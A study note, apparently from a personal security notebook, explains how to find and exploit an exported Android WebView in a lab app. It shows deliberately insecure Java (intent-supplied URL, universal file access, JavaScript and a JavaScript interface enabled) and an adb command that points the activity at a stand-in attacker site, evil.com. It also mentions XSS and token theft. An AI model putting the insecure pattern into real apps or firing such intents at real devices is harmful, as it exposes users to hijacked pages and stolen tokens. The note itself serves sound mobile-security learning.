 - The `webview` allows to load a remote url and display web pages as part of the activity layout. 
- It doesn't work like a full fledged browser but it shows the data on a web page inside an activity.
- Links opening on the apps itself without going to a browser are example for this.

==How to look for a vulnerable `webview`?==

 => First let's look which all components are exported or not, there are two ways to tell this:
 1. if the component explicitly declares `exported="true"` attribute
 2. The component automatically becomes exported if it has intent filters, unless declared otherwise ie, `exported="false"` 

  => Now confirm that the web view exist by look at source code for `loadwebview()` method.

  => lets spot the vulnerability by looking at an example:

  ```xml
 <activity android:name="com.tmh.vulnwebview.SupportWebView"   android:exported="true"/>
  ```

 -  this is an activity declared on [[./3.Android Manifest.XML|3.Android Manifest.XML]] which is exported.
 - Let's take a look at a vulnerable web view
 ```java       
 webView.setWebViewClient(new WebViewClient());  
 webView.getSettings().setAllowUniversalAccessFromFileURLs(true);    webView.getSettings().setJavaScriptEnabled(true);  
 if (getIntent().getExtras().getBoolean("is_reg", false)) {  
    webView.loadUrl("file:///android_asset/registration.html");  
     } else {  
          webView.loadUrl(getIntent().getStringExtra("reg_url"));  
         }  
     }  
 }
  ```

 - if we look at the code then we van see that it is loading a url right at the end and it is using a string send through the intent to load the url.

 - So this behaviour can be then exploited by third party application by sending the right intent to component with a url string, and the application will happily accept it as the component is exported which means that third party applications have access to it.

`exploitation:`

 =>For to exploit the vulnerability  we will send an intent to the vulnerable component using `adb` this will open a malicious web page provided by the attacker:

 =>we use this command for the same:
 ```shell
 adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es  reg_url "https://www.evil.com"
 ```

 breaking down the command: 
 1. `adb shell`: to start a unique shell on our device 
 2. `am start`: 'am' stands for activity manager here we are instructing android to start the activity manager. this manages all the components of android application. 
 3. `-n` : this flag is used to represent the name of the component where we are sending our intent.
 4. `com.tmh.vulnwebview/.RegistrationWebView` : name of the component, the only change here is that we need to add '/' just before the activity name.
 5. `--es reg_url`: stands for extra string where we are going to end the string url.  the name of the String extra that we get from the activity is `reg_url`
 6. finally provide the malicious link that you want to send to the attacker.


###### javascript enabled for a WebView:

 - web views supports the use of javascript, the developer can enable it by just adding this configuration:
```java
 webView.getSettings().setJavaScriptEnabled(true);
```

- also adding this configuration helps in creating an interface b/w web page's javascript and client side java code:
```java
WebView webView = (WebView) findViewById(R.id.webview);
webView.addJavascriptInterface(new WebAppInterface(this),"Android");
```

- this means that the web page's javascript code can access and inject java code into the application
- as this activity is exported this behaviour can be dangerous and allow an attacker to carry out  attacks including XSS and stealing tokens from the application.

 `exploitation:`
  